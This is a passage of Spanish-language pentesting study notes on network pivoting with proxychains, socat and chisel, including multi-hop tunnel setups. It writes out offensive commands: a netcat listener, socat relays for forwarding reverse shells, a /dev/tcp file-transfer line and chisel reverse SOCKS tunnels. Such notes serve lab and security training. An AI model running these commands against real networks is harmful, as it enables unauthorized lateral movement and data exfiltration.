 De manera que se podrá conectar mediante ssh, entre otras cosas. 
#### Máquina 1:
`proxychains ssh root@10.10.0.129`

Por otro lado, si lo que necesitamos es un "traspaso" de archivos, envíos de reverse shells, etc. Necesitaremos hacer uso de **socat**, donde una vez más la máquina intermediaria se tendra que ocupar de redirigir todo el tráfico de red entrante por un puerto a una determinada dirección. 

#### Máquina 1: 
`nc -nlvp 443 > binary.txt`
#### Máquina 2: 
#### `socat TCP-LISTEN:5566,fork TCP:192.168.1.38:443`
#### Máquina 3: 
`cat < binary.txt > /dev/tcp/10.10.0.128/5566`

De esta manera la máquina 2 se encarga de recibir conexiones por el puerto 5566 y redirigirlo a la IP de la máquina 1 por el puerto 443 donde la máquina 1 se encuentra escuchando. 

-----

# Múltiples conexiones y máquinas

Ahora, tenemos casos en donde no es un entorno "chico" donde solamente hay 3 máquinas, podría haber 4, 5, 6, etc. En estos casos sigue siendo lo mismo pero con algunos detalles a tener en cuenta. 

Para hacer uso de **chisel** será lo mismo, supongamos que tenemos 4 máquinas. 

![[pivoting_4_machines.png]]

Si quisieramos desde la Máquina 1 tener conexión con la máquina 4, deberíamos empezar a jugar con proxy de tipo **dynamic_chain** en lugar de **strict_chain**, de manera que esto se configura una vez más en el archivo de configuración **/etc/proxychains4.conf**. 
Es importante tener en cuenta que al final de este archivo de confoguración se indicaran los múltiples tuneles **socks5** de manera que primero estaran los últimos y por último el primero. 

El **dinamyc_chain** ofrece el mismo funcionamiento que strict. Por lo tanto también seguirá exactamente la lista de proxy que estipulo pero, a diferencia de strict, en el caso que uno de los proxy de la lista falle pasará al siguiente y de este modo podremos establecer la conexión sin problemas.

No solo esto, si no que para poder llegar a la Máquina 4, tiene que haber un nuevo "cliente" de chisel corriendo en la máquina 3, pero como la máquina 3 no tiene directamente conectividad con la Máquina 1, habrá que jugar con socat para redirigir la conexión de chisel a nuestro servidor en la Máquina 1. 

#### Máquina 1: 
`chisel server --reverse -p 1234`

#### Máquina 2: 
`chisel client {IP_Máquina1}:1234 R:1080:socks` 
`socat TCP-LISTEN:1234,fork TCP:{IP_Máquina1}:1234`

#### Máquina 3:
`chisel client {IP_Máquina2}:1234 R:1081:socks`
